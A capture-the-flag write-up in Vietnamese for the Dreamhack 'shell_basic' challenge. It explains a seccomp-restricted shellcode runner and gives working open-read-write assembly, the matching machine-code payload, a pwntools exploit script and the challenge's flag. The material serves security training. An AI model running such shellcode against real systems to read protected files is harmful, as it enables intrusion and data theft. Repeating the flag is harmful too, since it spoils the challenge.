

**1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
shell_basic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4ab0fe8a3aab93855695a905fc3d5e3fb5a233d4, not stripped
```

Ta có source như sau:

```
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

Đoạn code ở hàm main có chức năng cho phép người dùng nhập vào shellcode, sau đó thực thi shellcode đó. Tuy nhiên, code này đã áp dụng các cơ chế bảo mật để giới hạn các hệ thống mà shellcode có thể tương tác với.

Cụ thể, hàm banned_execve() sử dụng thư viện seccomp để cấm các cuộc gọi hệ thống execve và execveat. Điều này có nghĩa là shellcode không thể thực hiện các lệnh để thực thi các chương trình khác trên hệ thống.

Trong hàm main, đầu tiên nó sử dụng hàm mmap để cấp phát một vùng nhớ động với kích thước 0x1000 và gán địa chỉ của vùng nhớ này cho con trỏ shellcode. Vùng nhớ này được cấp phát với quyền đọc, ghi và thực thi.

Tiếp theo, hàm init() được gọi để thiết lập môi trường. Nó sử dụng hàm setvbuf để vô hiệu hóa bộ đệm đầu vào và đầu ra. Sau đó, nó gắn một signal handler cho tín hiệu SIGALRM và thiết lập một alarm để ngắt quá trình thực thi shellcode nếu nó chạy quá lâu.

Cuối cùng, hàm banned_execve() được gọi để áp dụng các ràng buộc seccomp để giới hạn các cuộc gọi hệ thống có thể được sử dụng.

Sau đó, người dùng được yêu cầu nhập shellcode thông qua lời gọi hàm read(). Đoạn mã này sẽ đợi đến khi người dùng nhập vào đủ 0x1000 byte hoặc nhấn Enter. Sau đó, shellcode được gán cho con trỏ sc và thực thi với lời gọi sc().

**2. Ý tưởng**

Tạo shell để mở file theo đường dẫn ```/home/shell_basic/flag_name_is_loooooong```

**3. Khai thác**

Viết mã asm để khai thác

```
    push 1
    mov rax, 0x676E6F6F6F6F6F6F         ;"oooooong"
    push rax
    mov rax, 0x6C5F73695F656D61         ;'ame_is_l'
    push rax
    mov rax, 0x6E5F67616C662F63         ; 'c/flag_n'
    push rax
    mov rax, 0x697361625f6c6c65         ; 'ell_basi'
    push rax
    mov rax, 0x68732f656d6f682f         ; '/home/sh'
    push rax
    ;set sys_open
    mov rax, 0x2
    mov rdi, rsp                        ; RD_only
    xor rsi, rsi
    xor rdx, rdx
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x30                       ; rsi = rsp - 0x30, buf
    mov rdx, 0x30                       ; rdx = 0x30, len
    mov rax, 0x0                        ; rax = 0
    syscall
    mov rax, 0x1
    mov rdi, 1      ; fd = stdout
    syscall
```

Chuyển sang mã máy bằng link sau: 

```
https://defuse.ca/online-x86-assembler.htm
```

Ta có script như sau:

```
from pwn import *

exe = ELF('shell_basic', checksec = False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 24162)

payload = b"\x6a\x00\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6E\x67\x50\x48\xB8\x61\x6D\x65\x5F\x69\x73\x5F\x6C\x50\x48\xB8\x63\x2F\x66\x6C\x61\x67\x5F\x6E\x50\x48\xB8\x65\x6C\x6C\x5F\x62\x61\x73\x69\x50\x48\xB8\x2F\x68\x6F\x6D\x65\x2F\x73\x68\x50\x48\xC7\xC0\x02\x00\x00\x00\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x0F\x05\x48\x89\xC7\x48\x89\xE6\x48\x83\xEE\x30\x48\xC7\xC2\x30\x00\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05"
#input()
r.sendafter(b'shellcode: ', payload)
r.interactive()
```

**4. Lấy flag**



```Flag: DH{ca562d7cf1db6c55cb11c4ec350a3c0b}```